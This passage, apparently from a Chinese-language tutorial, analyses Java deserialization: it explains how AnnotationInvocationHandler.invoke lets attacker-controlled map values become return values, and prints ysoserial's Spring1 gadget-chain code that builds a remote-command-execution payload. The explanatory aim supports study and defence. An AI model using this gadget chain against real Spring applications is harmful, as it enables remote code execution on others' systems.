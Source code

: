 ```java
                    return this.toStringImpl();
                case "hashCode":
                    return this.hashCodeImpl();
                case "annotationType":
                    return this.type;
                default:
                    Object var6 = this.memberValues.get(var4);
                    if (var6 == null) {
                        throw new IncompleteAnnotationException(this.type, var4);
                    } else if (var6 instanceof ExceptionProxy) {
                        throw ((ExceptionProxy)var6).generateException();
                    } else {
                        if (var6.getClass().isArray() && Array.getLength(var6) != 0) {
                            var6 = this.cloneArray(var6);
                        }

                        return var6;
                    }
            }
        }
    }
```
在上面 `invoke` 方法的实现中，最终的返回值为`var6`，而`var6`来自于`memberValues`对象`get`方法的调用，`memberValues`是一个`Map`对象，其值在`AnnotationInvocationHandler`实例化的过程中被赋予，即该值是可控的。  
`memberValues`对象在取值时其`key`为`var4` ，为被调用方法的方法名，即其值是已知的。又因`invoke`方法的返回值为`Object`类型，故`invoke`方法的返回值可以被修改为用户控制的任意对象。
`AnnotationInvocationHandler`的这一特性在 `Spring1` 链中有所体现。`Spring1`链是在`Spring`框架中发现的一条反序列化利用链，其能达成远程命令执行的效果。  
下面是 `ysoserial` 工具创建`Spring1`链的代码。  
```java
public Object getObject(String command) throws Exception {
		// [0]
        Object templates = Gadgets.createTemplatesImpl(command);
		// [1]
        ObjectFactory objectFactoryProxy = (ObjectFactory)Gadgets.createMemoitizedProxy(Gadgets.createMap("getObject", templates), ObjectFactory.class, new Class[0]);
		// [2]
        Type typeTemplatesProxy = (Type)Gadgets.createProxy((InvocationHandler)Reflections.getFirstCtor("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler").newInstance(objectFactoryProxy), Type.class, new Class[]{Templates.class});
		// [3]
        Object typeProviderProxy = Gadgets.createMemoitizedProxy(Gadgets.createMap("getType", typeTemplatesProxy), Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider"), new Class[0]);
		// [4]
        Constructor mitpCtor = Reflections.getFirstCtor("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
		// [5]
        Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass"), 0);
		// [6]
        Reflections.setFieldValue(mitp, "methodName", "newTransformer");
		// [7]
        return mitp;
    }
```
在上面的代码中，如果将[1]到[7]看作序列化的过程，那么从[7]到[1]就是反序列化的过程。  
动态代理发挥作用的过程使用下面的图片进行说明。  
![](006.png)  
